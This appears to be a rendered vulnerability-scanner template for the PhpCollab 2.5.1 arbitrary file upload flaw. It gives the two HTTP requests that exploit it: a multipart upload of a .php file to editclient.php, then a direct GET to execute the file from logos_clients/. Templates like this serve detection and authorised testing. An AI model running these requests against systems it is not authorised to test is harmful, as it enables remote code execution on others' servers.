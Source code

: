### Matchers

**Type - dsl**

- dsl
  1. contains(body_2, "{{randstr_1}}")

---

# PhpColl 2.5.1 Arbitrary File Upload

## Description

- PhpCollab 2.5.1 and earlier allows remote authenticated users to execute arbitrary code by uploading a file with an executable extension, then accessing it via a direct request to the file in logos_clients/ via clients/editclient.php.
- severity - high
- tags - cve2017,phpcollab,rce,fileupload,edb,cve,intrusive

## Requests

### Step - 1

```
POST /clients/editclient.php?id={{randstr}}&action=update HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=---------------------------154934846911423734231554128137

-----------------------------154934846911423734231554128137
Content-Disposition: form-data; name="upload"; filename="{{randstr}}.php"
Content-Type: application/x-php

<?php echo md5('phpcollab_rce');?>

-----------------------------154934846911423734231554128137--

```

### Step - 2

```
GET /logos_clients/1.php HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**
